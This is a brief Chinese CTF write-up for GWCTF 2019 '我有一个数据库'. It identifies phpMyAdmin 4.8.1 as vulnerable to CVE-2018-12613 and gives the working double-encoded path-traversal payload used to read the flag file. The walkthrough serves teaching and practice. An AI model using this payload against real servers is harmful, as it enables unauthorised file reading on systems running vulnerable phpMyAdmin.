


# 2021/07/23

## 我有一个数据库

> GWCTF 2019

### 题目

进去是一大堆乱码



这种题先用`ctf-wsan`等后台扫描工具扫下后台，发现`phpinfo.php`以及`phpmyadmin`



发现`phpmyadmin`是`4.8.1`的，存在**CVE-2018-12613**，直接利用

### payload

```
/phpmyadmin/?target=db_datadict.php%253f/../../../../../../../../flag
```

